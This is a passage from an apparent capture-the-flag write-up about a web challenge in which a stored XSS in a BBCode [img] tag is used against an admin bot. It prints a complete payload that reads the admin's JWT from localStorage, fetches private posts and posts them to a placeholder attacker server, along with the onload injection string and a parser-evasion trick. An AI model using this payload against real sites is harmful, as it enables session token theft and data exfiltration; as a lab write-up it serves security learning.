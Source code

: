 This behavior can be exploited to target the admin bot. By injecting a crafted XSS payload into a post or comment, we can execute arbitrary JavaScript in the context of the admin's session when the bot visits our post. Our objective is to leverage this to gain access to the admin account and ultimately retrieve the flag, which is stored in a private post only accessible to the admin.

---

## Solution

Based on our analysis, obtaining the flag requires exploiting a stored XSS vulnerability to exfiltrate the admin's private post. The approach is to craft a payload that, when executed in the admin bot's browser, fetches `/api/posts` (which includes the private flag post) and sends the data to a server we control.

A suitable JavaScript payload is:

```js
fetch('/api/posts',{method:'GET',headers:{'Authorization':'Bearer'+String.fromCharCode(32)+localStorage.getItem('DiarrheaTokenBearerInLocalStorageForSecureRequestsContactAdminHeKnowsHotToUseWeHaveManyTokensHereSoThisOneShouldBeUnique')}}).then(r=>r.json()).then(data=>fetch('https://YOUR_SERVER_OR_WEBHOOK',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'posts='+encodeURIComponent(JSON.stringify(data.items))}))
```

To deliver this payload, we use the vulnerable `[img]` BBCode tag, injecting our JavaScript into the `onload` attribute:

```html
[img width="100 onload=fetch('/api/posts',{method:'GET',headers:{'Authorization':'Bearer'+String.fromCharCode(32)+localStorage.getItem('DiarrheaTokenBearerInLocalStorageForSecureRequestsContactAdminHeKnowsHotToUseWeHaveManyTokensHereSoThisOneShouldBeUnique')}}).then(r=>r.json()).then(data=>fetch('https://YOUR_SERVER_OR_WEBHOOK',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'posts='+encodeURIComponent(JSON.stringify(data.items))}))"]https://whitedukesdz.ninja/logo.png[/img]
```

**Key points:**
- We avoid using a literal space character, as it would break the BBCode parsing. Instead, `String.fromCharCode(32)` is used to insert a space in the Authorization header.
- The JWT token is stored in local storage under a long, unique key, which we identified using DevTools:

  ![WhiteDukesDZ Logo](demonstration/web-bubble-revenge-localstorage.png)
